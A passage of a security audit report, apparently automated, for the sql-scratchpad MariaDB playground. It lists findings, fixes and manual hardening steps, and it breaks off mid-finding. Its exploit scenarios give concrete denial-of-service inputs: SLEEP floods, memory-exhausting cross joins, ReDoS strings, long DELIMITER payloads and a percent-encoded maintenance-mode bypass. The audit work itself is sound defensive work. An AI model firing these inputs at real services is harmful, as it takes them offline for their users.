

# Security Audit — `hexawulf/sql-scratchpad` — 2026-11-25

## 1. Executive summary

> **Manual actions required (cannot be completed via pull request alone):**
> 1. **`CICD-002` (Medium) — Split and scope Docker Hub credentials:** Replace the repository-wide `DOCKERHUB_TOKEN` (currently holding elevated Read/Write/Delete scope shared with `peter-evans/dockerhub-description`) with a least-privilege Read/Write image-push token (or repo-scoped Organization Access Token) stored inside a protected GitHub Environment, and isolate or remove automated Docker Hub README syncing.
> 2. **`CICD-003` (Medium) — Harden GitHub repository ruleset and Actions policy:** Update the `protect-main` branch ruleset to enforce required CI status checks (`Lint, Build, Unit & Integration Tests` and `E2E Tests (Playwright Chromium)`), stale review dismissal, and Code Owner review (paired with `.github/CODEOWNERS`), and enable **Require actions to be pinned to a full-length commit SHA** (`sha_pinning_required: true`) in Repository Settings -> Actions -> General.
> 3. **`CICD-001` (Medium, partial manual follow-up) — Create a protected `release` Environment and `v*.*.*` Tag Ruleset:** In addition to the in-repo workflow fixes (pinning `github.sha` and verifying `origin/main` ancestry), create a protected GitHub Environment (`release`) restricted to `v*.*.*` tags with required reviewers, move Docker Hub secrets into it, and add a Tag Ruleset blocking deletion and force-updates of `v*.*.*`.
> 4. **`CICD-005` (Low) — Enable Dependabot automated security updates:** Enable **Dependabot security updates** in Repository Settings -> Code security (currently `disabled` despite `.github/dependabot.yml` stating it is enabled); optionally enable secret scanning validity checks and non-provider patterns.
> 5. **`CONTAINERS-004` (Low) — Pin published Docker Hub manifest digests after each release:** After publishing a release tag, update `deploy/docker-compose.yml` to pin `0xwulf/sql-scratchpad` and `0xwulf/sql-scratchpad-db` by immutable multi-arch `@sha256:...` digest.
> 6. **Reverse-proxy TLS / HSTS & `TRUST_PROXY` verification (outside repo, related to `INFRA-002`):** Confirm the external reverse proxy terminates TLS 1.2+/1.3, enforces HTTP->HTTPS redirects and `Strict-Transport-Security`, forwards `X-Forwarded-For` (not `X-Real-IP` alone), and that `TRUST_PROXY` in `deploy/app.env` is set to the Docker `edge` network gateway IP/CIDR rather than `127.0.0.1`.
> 7. **`CICD-009` (Info, optional) — Enable GitHub Private Vulnerability Reporting:** Enable Private Vulnerability Reporting in Repository Settings -> Code security so external researchers have a private advisory channel.
>
> *Public-repository disclosure note:* Because `hexawulf/sql-scratchpad` is a public repository, exploit details for any findings remaining unfixed after Phase 4 should be omitted from the public PR body and tracked privately (for example via a GitHub Security Advisory) until resolved.

**Overall risk rating: HIGH**

This audit evaluated `hexawulf/sql-scratchpad` at commit `1a999aabcfbffd6459228ff780aac94952922c29` across 13 applicable security layers using automated scanners, a parallel swarm of layer specialists, and independent fresh-agent verification. The core multi-tenant MariaDB data-isolation architecture is well-engineered — zero critical vulnerabilities, zero leaked secrets in git history, zero known dependency CVEs, and zero XSS sinks were found. However, **5 confirmed High-severity availability vulnerabilities** allow an unauthenticated remote user to freeze the single-threaded Node.js event loop (via catastrophic regex backtracking and unbounded `DELIMITER` scanning), OOM-kill the 192 MB app container by buffering large query result sets prior to truncation, or pin workspaces for ~19 hours past TTL via unbounded `/exec` batches. An additional **10 Medium-severity** and **37 Low-severity** findings identify a percent-encoding bypass of the `MAINTENANCE=1` kill switch (`/%61pi/...`), inconsistent workspace ownership enforcement (`POST /close` vs `DELETE`), SQL denylist parser mismatches, workspace creation/disk-cap concurrency gaps, and CI/CD release governance weaknesses. Of the 65 deduplicated verified findings, all **45** targeted in-repo findings were fixed via atomic commits in Phase 4, **4** require manual repository/registry actions (plus manual GitHub Environment and Tag Ruleset follow-up on `CICD-001`), **3** are deferred pending maintainer design decisions, and **13** are informational.

### Findings count by severity

| Severity | Found (Raw) | Merged Duplicates | Verified Total | Confirmed | Downgraded (into) | Rejected | Fixed (Phase 4) | Deferred (Needs Decision) | Manual Action | Info Only |
|---|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|
| **Critical** | 0 | 0 | **0** | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| **High** | 6 | 1 | **5** | 5 | 0 | 0 | 5 | 0 | 0 | 0 |
| **Medium** | 15 | 2 | **10** | 10 | 0 *(3 out -> Low)* | 0 | 7 | 1 | 2 | 0 |
| **Low** | 48 | 13 | **37** | 34 | 3 *(1 out -> Info)* | 0 | 33 | 2 | 2 | 0 |
| **Info** | 16 | 4 | **13** | 12 | 1 | 0 | 0 | 0 | 0 | 13 |
| **Total** | **85** | **20** | **65** | **61** | **4** | **0** | **45** | **3** | **4** | **13** |

*Notes:* 85 raw Phase 1 findings deduplicated across 18 overlap clusters (20 duplicate IDs merged) into 65 distinct findings. Phase 2 downgraded 4 findings (`DEPS-001`, `INFRA-001`, `INFRA-002` from Medium -> Low; `INFRA-003` from Low -> Info) and rejected 0. `CICD-001` (Medium) is counted under **Fixed (Phase 4)** for its in-repo workflow fixes and also listed under Manual Actions for its GitHub Environment and Tag Ruleset setup.

### Top 3 risks in plain language

1. **One-request server freeze via SQL parsing and regex backtracking (`INJECTION-001`, `INJECTION-002`, `INJECTION-003`):** Any unauthenticated visitor can send a single crafted `/exec` or `/import` payload containing repeated spaces, semicolons, `CREATE FUNCTION` tokens, or an oversized custom `DELIMITER` to lock up the single-threaded Node.js event loop for minutes to hours, knocking the application and `/api/health` offline for every user.
2. **One-query container OOM crash & 19-hour workspace pinning (`API-002`, `API-001`, `LOGIC-003`):** Because `mysql2` buffers entire query result sets in Node memory before `ROW_CAP` and `RESPONSE_CAP_BYTES` are checked, a single cross-join returning large strings can exhaust the 192 MB container limit and crash the server (wiping all active in-memory workspaces). Separately, `/exec` lacks a batch wall-clock budget or statement cap, allowing one request to execute thousands of 4-second statements (~19 hours) while keeping the workspace "busy" so the janitor defers both TTL expiry and the 50 MB disk cap indefinitely.
3. **Maintenance lock bypass, asymmetric workspace teardown & CI/CD release gaps (`AUTHZ-002`, `AUTHZ-001`, `CICD-001`, `CICD-002`, `CICD-003`):** Percent-encoding `/api` as `/%61pi/...` bypasses the `MAINTENANCE=1` kill switch on every API endpoint. Ownership (`ownerIpHash`) is enforced only on `POST /close` and bypassed by `DELETE /api/workspaces/:wsId` and other `:wsId` routes. In CI/CD, tag releases check out mutable tag refs without checking `main` ancestry, `protect-main` requires no CI status checks, and `DOCKERHUB_TOKEN` holds elevated repository-wide permissions shared with a third-party README-sync action.

---

## 2. Scope & method

### Audit target & configuration

| Parameter | Value |
|---|---|
| **Repository** | `hexawulf/sql-scratchpad` (`PUBLIC`) |
| **Audited commit SHA** | `1a999aabcfbffd6459228ff780aac94952922c29` |
| **Base branch -> Work branch** | `main` -> `security/audit-2026-11-25` |
| **Report path** | `docs/security/SECURITY_AUDIT_2026-11-25.md` |
| **Fix threshold (`min_severity_to_fix`)** | `low` (Critical, High, Medium, Low targeted for fixes; Info reported only) |
| **Dependency major bumps allowed** | `false` (patch/minor only) |
| **Audit mode** | Parallel swarm (Phase 1) + independent fresh-agent verification (Phase 2) |

### In scope & out of scope

- **In scope:** All 95 tracked files at commit `1a999aabcfbffd6459228ff780aac94952922c29`, including `server/`, `web/`, `shared/`, `db/`, `seeds/`, `deploy/`, `scripts/`, `e2e/`, `Dockerfile`, `db/Dockerfile`, `compose.dev.yml`, `.github/workflows/`, `.github/dependabot.yml`, `docs/`, `SECURITY.md`, and live GitHub repository security/ruleset metadata inspected read-only via the GitHub API.
- **Out of scope:** External reverse-proxy/TLS runtime configurations deployed outside this repository, host OS / Docker daemon hardening, live production infrastructure, and external Docker Hub / GitHub account MFA policies.

### Layer coverage (14 layers)

| # | Layer | Status | Execution | Summary / Rationale |
|---|---|---|---|---|
| 1 | `secrets` | **Audited** | Swarm Wave 1 | Git history (`gitleaks`), `.env*` templates, DB init scripts, `.gitignore`/`.dockerignore`, frontend bundle |
| 2 | `deps` | **Audited** | Swarm Wave 1 | `pnpm-lock.yaml`, all 4 `package.json` manifests, `pnpm-workspace.yaml` `allowBuilds`, Corepack, Dependabot |
| 3 | `authn` | **Audited** | Swarm Wave 1 | `wsId` capability token lifecycle, MariaDB accounts, `TRUST_PROXY`, `LOADTEST_ALLOW_IPS` |
| 4 | `authz` | **Audited** | Swarm Wave 1 | Full 12-row HTTP route/hook matrix, `ownerIpHash` asymmetry, `MAINTENANCE` hook, MariaDB privilege isolation |
| 5 | `injection` | **Audited** | Swarm Wave 1 | SQL splitter/denylist/import skip/DEFINER rewriter, dynamic SQL in `WorkspaceManager`, shell/SQL escaping in `db/init/`, ReDoS |
| 6 | `web` | **Audited** | Swarm Wave 1 | Vue 3 templates (0 XSS sinks), CSP & security headers, cross-site `fetch`/`sendBeacon` CSRF/rate-limit burn, TSV/Markdown export injection, `localStorage` |
| 7 | `api` | **Audited** | Swarm Wave 1 | Fastify schemas, body/upload concurrency limits, `/exec` timeout, result-set buffering, rate-limit coverage, error disclosure |
| 8 | `crypto` | **Audited** | Swarm Wave 1 | `IpHasher` salts/truncation, `wsId`/DB-name CSPRNG entropy, `sqlLogMeta` hashing, `Math.random()`, plaintext DB transport |
| 9 | `containers` | **Audited** | Swarm Wave 2 | `Dockerfile`, `db/Dockerfile`, `deploy/docker-compose*.yml`, `compose.dev.yml` (Trivy + Hadolint + manual review) |
| 10 | `infra` | **Audited** | Swarm Wave 2 | `db/conf.d/sql-scratchpad.cnf`, `deploy/*.env.example`, `docs/SELF-HOSTING.md`, `TRUST_PROXY`, `LOADTEST_ALLOW_IPS` |
| 11 | `cicd` | **Audited** | Swarm Wave 2 | `.github/workflows/{ci,release}.yml`, `.github/dependabot.yml`, `SECURITY.md`, GitHub rulesets/environments/security settings |
| 12 | `logging` | **Audited** | Swarm Wave 1 | Pino redaction paths, `err.sqlMessage` leaks, `wsId` in logs, security audit events, log-ring eviction |
| 13 | `logic` | **Audited** | Swarm Wave 1 | TOCTOU races in `createWorkspace`, busy-skip janitor disk cap, admin pool starvation, `ImportByteBudget` growth, teardown/reset failure states |
| 14 | `llm` | **Skipped** | N/A | **Proof:** Zero LLM/AI SDKs in `package.json`, `server/package.json`, `web/package.json`, `shared/package.json`, or `pnpm-lock.yaml`; static grep across `server/src`, `web/src`, and `shared/src` confirmed zero LLM, prompt, or agent functionality. |

### Tools executed & unavailable tools

- **Executed tools (versions):**
  - `gitleaks` `v8.30.1` (read-only official container, full git history — 50 commits)
  - `pnpm audit` (`pnpm` `12.21.0` via Corepack)
  - `trivy` `v0.76.2` (`trivy fs --scanners vuln,secret,misconfig`, both default and `--include-dev-deps`, read-only official container)
  - `hadolint` `v2.15.1` (read-only official container against `Dockerfile` and `db/Dockerfile`)
  - `actionlint` `v1.7.12` (read-only official container against `.github/workflows/{ci,release}.yml`)
  - `eslint` `v10.15.0` (`pnpm lint`), `prettier` `v3.6.0` (`pnpm format:check`), `tsc` (`TypeScript 6.0.3`, `pnpm typecheck`), `vitest` `v5.1.1` (`--project unit --project web` — 6 files, 62 tests passed)
  - Custom Node.js verification probes executed against built `server/dist/*` in Phase 2 (reproducing ReDoS timings, `DELIMITER` quadratic CPU, denylist bypasses, `/%61pi/...` maintenance bypass, cross-site rate-limit burn, missing `/api/*` headers, `wsId` log leakage, `mysql2` error-field leakage, and Fastify `TRUST_PROXY` `/0` behavior).
- **Unavailable tools (covered by manual review and official container scanners above):** `trufflehog`, `semgrep`, `osv-scanner`, `zizmor`, and `eslint-plugin-security`.

### Limitations

- **No live MariaDB 11.4 instance during Phases 0–2:** `pnpm test:int`, `pnpm seeds:verify`, and `pnpm test:e2e` require a running MariaDB 11.4 server and were not executed in the static audit environment. Database-runtime impacts — exact container OOM RSS under `API-002`, `information_schema` latency under `LOGIC-004`, `DATA DIRECTORY` behavior under MariaDB 11.4 default `have_symlink` (`AUTHZ-006`), and live `ws_<hex>` privilege boundary probes — were verified statically and via unit/mock harnesses rather than against a live `mariadbd` process.
- **Static & single-host scope:** Network-layer controls implemented on an external reverse proxy or host firewall (TLS ciphers, edge rate limiting, WAF rules) are outside the audited repository and could not be verified.

---

## 3. Architecture & trust boundaries

`sql-scratchpad` is a stateless-frontend, ephemeral-workspace SQL playground built with a **Vue 3 / Vite 8 SPA** (`web/`), a **Fastify 5 / Node.js 24 TypeScript API** (`server/`), shared API types (`shared/`), and a **MariaDB 11.4 LTS** database container (`db/`). Each visitor provisions an isolated MariaDB schema (`ws_<12hex>`) and dedicated unprivileged DB user (`ws_<12hex>@'%'`) cloned from a read-only template schema (`tpl_sample_library`), accessed via a 128-bit base32 capability token (`wsId`) persisted in browser `localStorage`. In the shipped production Compose layout (`deploy/docker-compose.yml`), `app` listens only on `127.0.0.1:5050` behind a user-supplied reverse proxy with TLS, and communicates with `db` over a dedicated `internal: true` Docker network with no published database port. Releases are built multi-arch (`linux/amd64`, `linux/arm64`) and pushed to Docker Hub via GitHub Actions on `v*.*.*` tags.



**Primary trust boundaries:**
- **TB1 — Internet / Reverse Proxy -> Fastify HTTP API:** Untrusted requests, `X-Forwarded-For` headers (gated by `TRUST_PROXY`), URL paths, JSON payloads (up to 7 MB on `/import`), and arbitrary SQL scripts.
- **TB2 — Fastify (`scratchpad_admin`) -> MariaDB 11.4:** Privileged control plane holding `CREATE USER`, `CONNECTION ADMIN`, `WITH GRANT OPTION` on `` `ws\_%`.* ``, and read/trigger grants on `` `tpl\_%`.* ``.
- **TB3 — Unprivileged Workspace Connection (`ws_<hex>`) -> MariaDB 11.4:** Untrusted SQL execution plane enforced by MariaDB grants, `multipleStatements: false`, `MAX_STATEMENT_TIME 5`, `local_infile = 0`, and the pre-flight parser/denylist.
- **TB4 — MariaDB / API -> Browser SPA & Exports:** Query rows, column aliases, error text, and `.sql` imports rendered in Vue 3 / CodeMirror 6 and exported to TSV/Markdown.
- **TB5 — GitHub Actions CI/CD -> Docker Hub:** Automated tag-triggered multi-arch container publishing using `DOCKERHUB_USERNAME` / `DOCKERHUB_TOKEN`.

---

## 4. Findings

All **65 verified findings** (61 confirmed, 4 downgraded; 0 rejected) from the independent Phase 2 verification are listed below, ordered by effective severity (`HIGH` -> `MEDIUM` -> `LOW` -> `INFO`), then by audit layer and finding ID. Merged duplicate IDs from the 85 raw Phase 1 findings are noted on each canonical finding and catalogued in Appendix A.

<!-- High Severity (5) -->

### [HIGH] API-001 — POST /exec has no total execution-time budget; a single request can run ~19 h and pins the workspace past its TTL

- **Location:** `server/src/exec-engine.ts:343-481`, `server/src/workspace-manager.ts:728-737`, `server/src/app.ts:88-97,249-271`, `server/src/app.ts:88-97`
- **Layer:** `api` | **CWE:** CWE-400 | **OWASP:** A04:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed — merged duplicate(s): `INJECTION-005`
- **Description:** Confirmed directly in server/src/exec-engine.ts:343-481 (no wall-clock deadline and no statement count cap, unlike import-engine.ts:364,427), server/src/app.ts:88-97 (256 KB body permits tens of thousands of sequential statements), and server/src/workspace-manager.ts:728-737 (janitor skips expired workspaces while busy). Merged with INJECTION-005. **Preconditions:** Unauthenticated internet access to the public API. Impact scales with MariaDB CPU; real effect not run against a live DB (no MariaDB in the audit environment). The code-level absence of a wall-clock cap is confirmed.
- **Evidence:**
  ```text
  exec-engine.ts:343-345  const statements = splitMariaDbStatements(req.sql);
    for (let i = 0; i < statements.length; i += 1) { ... await session.conn.query({sql: stmt.sql, rowsAsArray: true}) ... }
  // no deadline / elapsed-time check anywhere in the loop (contrast import-engine.ts:427 `const deadlineMs = Date.now() + IMPORT_TIMEOUT_MS`).
  workspace-manager.ts:731-736  if (this.isWorkspaceBusy(ws)) { this.logger.debug(..., 'Skipping expired workspace with busy session until next janitor sweep'); continue; }
  app.ts:93  sql: { type: 'string', maxLength: BODY_LIMIT_BYTES }  // only bounds statement COUNT (~17k x 'SELECT SLEEP(4);')
  The only per-statement bound is MariaDB MAX_STATEMENT_TIME 5 (workspace-manager.ts:856, 619); nothing bounds statements x 5 s.
  ```
- **Exploit scenario:** 1) Attacker POSTs /api/workspaces (public, 20/h per client key) and gets a wsId. 2) Attacker POSTs /exec with a body just under 256 KB made of ~17,000 copies of `SELECT SLEEP(4);` (or a CPU-heavy cross join that runs just under 5 s each). 3) Every statement individually respects the 5 s cap, but the handler loops over all of them: ~17,000 x 4 s is about 19 hours for ONE request, on each of sessions A and B. 4) The attacker disconnects; Fastify does not abort the handler, so execution continues. 5) The janitor skips busy workspaces, so the workspace never hits idle or absolute TTL while it runs, and the per-IP 6-workspace cap slots stay consumed. 6) With 6 workspaces x 2 sessions the attacker keeps 12 CPU-heavy 5 s queries running continuously against the shared 1.5-CPU MariaDB, degrading every other user. /kill only interrupts the current statement; the loop moves to the next one. Only DELETE/reset (which sets sessionAbort) or an app restart stops it.
- **Fix:** Add a per-request wall-clock budget to ExecEngine.execute (new config EXEC_TIMEOUT_MS, e.g. 30 s) mirroring import-engine.ts:427-454: before each statement check Date.now() >= deadline and push/return an `EXEC_TIMEOUT` error result, then break. Also cap statements per /exec call (e.g. 500) and set session `max_statement_time` to min(5, remaining budget). Do not let the janitor skip a workspace past absoluteExpiresAt: set sessionAbort and kill instead of skipping. Add a hostile-corpus test with 100 x `SELECT SLEEP(4);`. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `a10826d` — Added EXEC_TIMEOUT_MS (30 s) wall-clock budget, EXEC_MAX_STATEMENTS (500) cap, remaining-budget max_statement_time clamping in ExecEngine, and forced janitor teardown on busy workspaces past absoluteExpiresAt.

### [HIGH] API-002 — Query results are fully buffered in Node memory before ROW_CAP / RESPONSE_CAP_BYTES are applied (OOM against 192 MB container limit)

- **Location:** `server/src/exec-engine.ts:383-409`, `server/src/import-engine.ts:501-510`, `deploy/docker-compose.yml:49-50`, `db/conf.d/sql-scratchpad.cnf:16-18`, `server/src/import-engine.ts:502-505`, `deploy/docker-compose.yml:49`
- **Layer:** `api` | **CWE:** CWE-770 | **OWASP:** A04:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed — merged duplicate(s): `LOGIC-001`
- **Description:** Confirmed in server/src/exec-engine.ts:383-409 and server/src/import-engine.ts:502-505: mysql2 promise query() buffers the entire result set in Node memory before ROW_CAP (1,000) and RESPONSE_CAP_BYTES (5 MB) are applied, against a 192 MB app container limit (deploy/docker-compose.yml:49). Merged with LOGIC-001. **Preconditions:** Unauthenticated; needs only a workspace. Not exercised against a live MariaDB in this audit (no instance available); based on mysql2 non-streaming semantics and the container limit.
- **Evidence:**
  ```text
  exec-engine.ts:383-409
    const [raw, fields] = await session.conn.query({ sql: stmt.sql, rowsAsArray: true });
    ...
    const totalRows = raw.length;
    const limit = Math.min(totalRows, this.config.ROW_CAP);
    for (let r = 0; r < limit; r += 1) { ... if (responseBytes + rowBytes > RESPONSE_CAP_BYTES) { truncated = true; break; } }
  mysql2 `query()` (non-streaming) resolves only after the ENTIRE result set is parsed into JS arrays; the caps run afterwards, on already-allocated memory.
  import-engine.ts:502-505  const [raw] = await session.conn.query({ sql: execSql, rowsAsArray: true });  // SELECTs inside an import are buffered with no cap at all.
  deploy/docker-compose.yml:49  mem_limit: 192m
  No DB-side limit on result volume: max_statement_time 5-10 s only; max_allowed_packet 4M is per packet/value, REPEAT('x',1000000) is under it.
  ```
- **Exploit scenario:** 1) Attacker creates a workspace on `sample-library` (Books has 12 rows) and POSTs /exec with `SELECT REPEAT('x',1000000) FROM Books a CROSS JOIN Books b CROSS JOIN Books c;` (1,728 rows x ~1 MB, built in well under 5 s) or the same via an /import script. 2) mysql2 accumulates every row in the Node heap/external memory; hundreds of MB are allocated within a second or two. 3) The app container (mem_limit 192m, baseline RSS about 100 MB) is OOM-killed, taking down every user's in-memory workspace credentials; compose `restart: unless-stopped` brings it back with all workspaces lost. 4) /exec allows 60/min per client key, so the attacker can repeat indefinitely. The ROW_CAP=1000 and 5 MB response cap give a false sense of safety because they truncate the JSON, not the buffering.
- **Fix:** Stream rows instead of buffering: use `session.conn.connection.query(opts).stream()` (or the callback Query `row` events) and stop reading once ROW_CAP rows or RESPONSE_CAP_BYTES are reached, then issue KILL QUERY for that thread and drain/destroy. Additionally `SET SESSION sql_select_limit = ROW_CAP + 1` on pinned sessions and `SET SESSION max_join_size` to bound cross joins. For /import, discard result rows (stream and drop) or reject SELECT statements. Add an integration test with a 1 MB x N-row query asserting process RSS growth stays bounded. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Fixed in `e87aeb5` — Streamed query rows via mysql2 callback query interface with mid-stream ROW_CAP/RESPONSE_CAP_BYTES truncation and KILL QUERY on overflow, discarded rows in ImportEngine, and set SESSION sql_select_limit = ROW_CAP + 1 on pinned sessions.

### [HIGH] INJECTION-001 — Cubic and quadratic ReDoS in classifyImportSkip and isSkippableDumpHeader

- **Location:** `server/src/import-engine.ts:196-203`, `web/src/utils/sql-statement.ts:368-373`
- **Layer:** `injection` | **CWE:** CWE-1333 | **OWASP:** A03:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Reproduced directly against built server/dist/import-engine.js (classifyImportSkip): conditional-comment regex /^\/\*!\d*\s+([\s\S]+?)\s*\*\/$/ and trailing-semicolon regex /;+\s*$/ both exhibit super-linear backtracking (n=2000->19.6ms, n=4000->77.3ms for semicolons; n=150->9.1ms, n=300->20.3ms for spaces). Identical regexes confirmed in web/src/utils/sql-statement.ts:368-373. **Preconditions:** Publicly accessible /api/workspaces and /api/workspaces/:wsId/import endpoints (no authentication required); for the client-side variant, a user selects or drops an untrusted .sql file.
- **Evidence:**
  ```text
  const leadStripped = stripLeadingComments(sql)
    .replace(/;+\s*$/, '')
    .trim();

  // Check single conditional-comment statement: /*!NNNNN <inner> */
  const condMatch = /^\/\*!\d*\s+([\s\S]+?)\s*\*\/$/.exec(leadStripped);
  ```
- **Exploit scenario:** An unauthenticated remote user creates a workspace via POST /api/workspaces and sends a single small POST /api/workspaces/:wsId/import request (under the 6 MB body cap). Two catastrophic backtracking paths exist in classifyImportSkip: (1) The regex /^\/\*!\d*\s+([\s\S]+?)\s*\*\/$/ exhibits O(N^3) cubic backtracking when a statement begins with a conditional comment prefix followed by repeated whitespace and trailing non-closing tokens (e.g., an executable comment followed by SELECT 1). Measured on built server/dist/import-engine.js: 200 spaces took 21.0 ms, 400 spaces took 157.3 ms (~7.5x for 2x input), and 2,000 spaces (2 KB) took 5.66 s; ~10 KB freezes the single-threaded Node.js event loop for >11 minutes. (2) The regex /;+\s*$/ exhibits O(N^2) quadratic backtracking when a statement uses a custom DELIMITER directive to include many consecutive semicolons followed by a non-semicolon character. Measured on server/dist/import-engine.js: 5,000 semicolons took 121.1 ms, 10,000 took 484.9 ms (4x for 2x input), and 100,000 (100 KB) took 47.9 s. Because IMPORT_TIMEOUT_MS is only checked between loop iterations, a single request freezes the Fastify event loop for all users and causes /api/health checks to fail. The identical regexes in web/src/utils/sql-statement.ts freeze a victim's browser tab if they select or drop a crafted .sql file into the Import dialog.
- **Fix:** Replace both regexes with linear-time string operations in server/src/import-engine.ts:196-203 and web/src/utils/sql-statement.ts:368-373: (1) Strip trailing whitespace and semicolons with a reverse index loop (while (end > 0 && (s[end - 1] === ';' || /\s/.test(s[end - 1]!))) end -= 1;). (2) Match single conditional-comment statements by checking leadStripped.startsWith('/*!') && leadStripped.endsWith('*/'), verifying no earlier '*/' exists inside the body (if required), slicing off the trailing '*/', stripping the leading /^\/\*!(?:M!)?\d*\s+/ prefix (anchored, non-overlapping), and calling .trim(). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `977df5f` — Replaced quadratic/cubic trailing-semicolon and conditional-comment regexes with linear-time scanning in classifyImportSkip and web isSkippableDumpHeader.

### [HIGH] INJECTION-002 — Quadratic ReDoS in checkDenylist CREATE FUNCTION SONAME rule on /exec and /import

- **Location:** `server/src/exec-engine.ts:207-210`
- **Layer:** `injection` | **CWE:** CWE-1333 | **OWASP:** A03:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Reproduced directly against built server/dist/exec-engine.js (checkDenylist): repeated 'CREATE FUNCTION ' without 'SONAME' scales quadratically (500 reps -> 8.4ms, 1000 reps -> 31.4ms, ~3.7x per 2x input), blocking the Node event loop on unauthenticated /exec and /import. **Preconditions:** Publicly accessible /api/workspaces/:wsId/exec or /api/workspaces/:wsId/import endpoints (no authentication required).
- **Evidence:**
  ```text
  {
    pattern: /\bCREATE\s+(?:OR\s+REPLACE\s+)?(?:AGGREGATE\s+)?FUNCTION\b[\s\S]*\bSONAME\b/i,
    message: 'Not available in the playground: native UDF loading (SONAME) is disabled.',
  },
  ```
- **Exploit scenario:** An unauthenticated remote user creates a workspace and submits a single statement containing repeated 'CREATE FUNCTION ' tokens with no 'SONAME' token to either POST /api/workspaces/:wsId/exec (up to 256 KB, 60 req/min) or POST /api/workspaces/:wsId/import (up to 6 MB, 20 req/h). Because the unanchored regex pairs a repeated prefix with greedy [\s\S]* followed by \bSONAME\b, V8 scans and backtracks to the end of the string from every 'CREATE FUNCTION' occurrence, yielding O(N^2) runtime. Measured on built server/dist/exec-engine.js: 1,000 repetitions (16 KB) took 34.4 ms, 2,000 (32 KB) took 132.1 ms (3.84x for 2x input), and 4,000 (64 KB) took 484.3 ms. At the 256 KB /exec limit, a single request blocks the Node.js event loop for ~8.4 s (and 60 req/min keeps the server continuously unresponsive); at the 6 MB /import limit, a single request freezes the event loop for over an hour.
- **Fix:** Replace the single [\s\S]* pattern in DENYLIST_RULES with a linear-time two-check predicate (e.g., support a test: (cleaned: string) => boolean function on rule entries) that checks /\bSONAME\b/i.test(cleaned) && /\bCREATE\s+(?:OR\s+REPLACE\s+)?(?:AGGREGATE\s+)?FUNCTION\b/i.test(cleaned). Both checks run in O(N) time with zero cross-statement backtracking. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `db07e94` — Replaced quadratic CREATE FUNCTION ... SONAME regex with a linear two-check predicate in DENYLIST_RULES.

### [HIGH] INJECTION-003 — Unbounded custom DELIMITER length causes quadratic CPU exhaustion in splitMariaDbStatements

- **Location:** `server/src/exec-engine.ts:155-163`, `web/src/utils/sql-statement.ts:312-316`, `web/src/utils/sql-statement.ts:347-353`
- **Layer:** `injection` | **CWE:** CWE-407 | **OWASP:** A03:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Reproduced directly against built server/dist/exec-engine.js (splitMariaDbStatements): unbounded custom DELIMITER length triggers quadratic scanning inside dbgate-query-splitter before IMPORT_MAX_STATEMENTS or IMPORT_TIMEOUT_MS run (m=2000 -> 10.0ms, m=4000 -> 27.2ms). Same unbounded DELIMITER pattern confirmed in web/src/utils/sql-statement.ts:312-316,347-353. **Preconditions:** Publicly accessible /api/workspaces/:wsId/exec or /api/workspaces/:wsId/import endpoints (no authentication required); client-side variant triggers when opening/importing a crafted .sql file.
- **Evidence:**
  ```text
  export function splitMariaDbStatements(sql: string): SplitStatement[] {
    const normalized = sql.charCodeAt(0) === 0xfeff ? sql.slice(1) : sql;
    const items = splitQuery(normalized, {
      ...mysqlSplitterOptions,
      returnRichInfo: true,
    }) as RichSplitItem[];
  ```
- **Exploit scenario:** Both server-side splitMariaDbStatements (via dbgate-query-splitter with allowCustomDelimiter: true, which runs s.slice(pos).startsWith(context.currentDelimiter) on every character in lib/splitQuery.js:138) and client-side splitScriptWithDelimiters accept arbitrarily long custom DELIMITER directives. An unauthenticated attacker sends a /exec (up to 256 KB) or /import (up to 6 MB) payload whose first line defines a long DELIMITER consisting of repeated characters ending in a mismatch character, followed by a body repeating that same character. At every character offset, the splitter compares up to the full delimiter length before mismatching, causing O(N * M) CPU exhaustion synchronously on the Node.js main thread before IMPORT_MAX_STATEMENTS, checkDenylist, or IMPORT_TIMEOUT_MS can run. Measured on built server/dist/exec-engine.js: 12 KB (4k delimiter) took 31.1 ms, 24 KB (8k delimiter) took 99.9 ms, and 48 KB (16k delimiter) took 2,124.4 ms (2.12 s). At 256 KB (/exec) or 6 MB (/import), a single request freezes the server for tens of seconds to hours.
